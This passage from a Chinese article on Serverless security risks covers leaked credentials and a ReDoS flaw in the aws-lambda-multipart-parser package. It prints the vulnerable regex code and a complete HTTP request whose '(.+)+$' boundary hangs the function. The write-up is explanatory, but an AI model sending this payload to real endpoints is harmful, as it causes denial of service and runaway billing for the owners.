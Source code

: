 虽然 Serverless 函数的执行环境是一个安全隔离的环境，但如果函数的第三方依赖不安全，也很可能导致函数不安全。

* **敏感信息泄露**

随着应用规模和复杂性的增长，应用需要维护越来越多的敏感信息，比如访问凭证（AccessKeyId、AccessKeySecret 和 SecrityToken）、数据库密码、加密密钥等。

**常见的错误做法是：** 把这些敏感信息简单地放在项目配置文件中，随代码一起上传。这样任何能访问代码的开发者都能访问这些敏感信息。另外，有的开发者不小心把这些敏感信息上传到了公开的代码仓库中（如 Github）。我曾经目睹很多访问凭证泄露的案例，公司的机密信息直接暴露给了未经授权的用户，更严重的是，公共的搜索引擎还对敏感数据进行了索引，使每个人都能轻松获取这些数据。

* **DDoS 和资损**

DDoS 几乎成了每个暴露在互联网上的服务面临的主要风险之一。虽然 Serverless 的自动弹性伸缩让你不用担心面对流量高峰时的系统扩展能力，但也给你带来了一些问题，比如大量恶意运行函数造成资损。

之前有一个 aws-lambda-multipart-parser 的包中就有一个漏洞，攻击者就可以使用该漏洞对 Lambda 函数发起 DDoS 攻击，使函数一直挂起直到超时。该包中有这样一段代码：

```javascript
module.exports.parse = (event, spotText) => {
    // 从 Content-Type 中获取 boundary 属性
    const boundary = getValueIgnoringKeyCase(event.headers, 'Content-Type').split('=')[1];
    // 根据 boundary 从消息体中解析数据
    const body = (event.isBase64Encoded ? Buffer.from(event.body, 'base64').toString('binary') : event.body)
        .split(new RegExp(boundary))
        .filter(item => item.match(/Content-Disposition/))
}
```

**这段代码逻辑很简单：** 首先从 HTTP Headers 中的 Content-Type 字段里面获取 boundary 属性，然后根据 boundary 属性来构造正则表达式，从 HTTP body 中解析数据。

由于 boundary 属性完全在调用方的控制之下，因此恶意用户就可以利用 boundary 构造请求数据对函数发起 DDoS 攻击：

```js
POST /app HTTP/1.1
Host: xxxxxxxxxxx.us-east-1.amazonaws.com
Content-Length: 327
Content-Type: multipart/form-data; boundary=(.+)+$
Connection: keep-alive
(.+)+$
Content-Disposition: form-data; name="text"
Content
(.+)+$
Content-Disposition: form-data; name="file1"; filename="a.txt"
Content-Type: text/plain
Content of a.txt.
(.+)+$
Content-Disposition: form-data; name="file2"; filename="a.html"
Content-Type: text/html
<!DOCTYPE html><title>Content of a.html.</title>
(.+)+$
```

当攻击者传入`(.+)+$`这个字符串时，代码中就会使用`(.+)+$`去构造正则表达式解析请求体，由于`(.+)+$`的效率极低，就会导致程序一直卡在 split 方法，进而造成 CPU 使用率持续为 100%。**我在自己 3.5 GHz Intel Core i7 CPU 的电脑上测试了，该段代码运行了 10 分钟都没有结束。** 将该函数放在 Lambda 上运行，函数最终会超时被 Lambda 强制结束。  
